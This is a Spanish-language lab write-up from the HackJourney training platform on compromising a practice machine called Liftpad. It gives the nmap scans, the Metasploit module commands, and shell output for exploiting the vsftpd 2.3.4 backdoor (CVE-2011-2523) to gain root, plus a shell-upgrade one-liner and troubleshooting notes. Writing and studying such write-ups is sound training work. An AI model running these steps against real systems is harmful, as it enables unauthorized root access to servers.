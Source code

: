 # Informe de Explotación - Maquina: Liftpad

**Este write-up forma parte del laboratorio de HackJourney. Para más información, visita [www.hackjourney.com](https://www.hackjourney.com)**

## 1. Información General

* **Nombre de la máquina:** Liftpad (HackJourney)
* **Dirección IP:** Variable según reinicio (ej. 10.10.99.18, 10.10.52.177, 10.10.61.204)
* **VPN activa:** Tunel VPN por OpenVPN (tun1)

---

## 2. Descubrimiento del Servicio Vulnerable

### Escaneo inicial con Nmap:

```bash
sudo nmap -Pn -sS -sC -sV -oN nmap-inicial 10.10.99.18
```

**Resultado relevante:**

* **Puerto 21/tcp (FTP)** abierto
* Servicio: `vsftpd 2.3.4`
* Permite login anónimo (código 230)

---

## 3. Confirmación de vulnerabilidad con Nmap NSE

```bash
sudo nmap -Pn -p 21 --script "ftp-*" -oN nmap-ftp-scripts 10.10.99.18
```

**Resultado del script `ftp-vsftpd-backdoor`:**

* Estado: VULNERABLE (CVE-2011-2523)
* UID obtenido: `root`

---

## 4. Explotación con Metasploit

### Módulo usado:

```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.61.204
run
```

**Resultado exitoso:**

```
[+] 10.10.61.204:21 - Backdoor service has been spawned, handling...
[+] 10.10.61.204:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session opened
```

Shell mejorada con:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 5. Acceso Root Verificado

Se confirmó acceso al sistema con privilegios de superusuario (`root`) en la máquina.

> Por políticas de HackJourney, no se muestran flags, contraseñas ni hashes en write-ups públicos.

---

## 6. Problemas encontrados

### a. Fallos de conexión intermitentes

* El exploit falló en varias ejecuciones con errores como:

```
Exploit failed [unreachable]: Rex::ConnectionTimeout
```

* O bien:

```
The service on port 6200 does not appear to be a shell
```

* A veces el puerto 6200 quedaba abierto, pero no ejecutaba correctamente el shell.

### b. Reinicio de entorno o caducidad de sesión

* La dirección IP del objetivo cambió varias veces (10.10.99.18, 10.10.52.177, 10.10.61.204), lo cual requiere repetir todo el proceso de explotación.

---

## 7. Conclusiones

* La máquina `Liftpad` es vulnerable a una explotación conocida y antigua en `vsftpd 2.3.4`.
* A pesar de errores de sesión y reconexión, se logró obtener una shell como `root`.
* Se recomienda no intentar levantar servicios como SSH permanentemente, ya que estas máquinas suelen reiniciar su estado.

---

## 8. Herramientas Utilizadas

* `nmap`
* `netcat`
* `msfconsole`
* `openvpn`
* `python3`
* `ps`, `ss`, `which`, etc.

---

## 9. Recomendaciones

* Automatizar la verificación de disponibilidad del puerto 21 y el acceso al backdoor (puerto 6200).
* Mantener logs de IPs activas durante las sesiones de laboratorio.
* Considerar usar `meterpreter` para sesiones más estables.
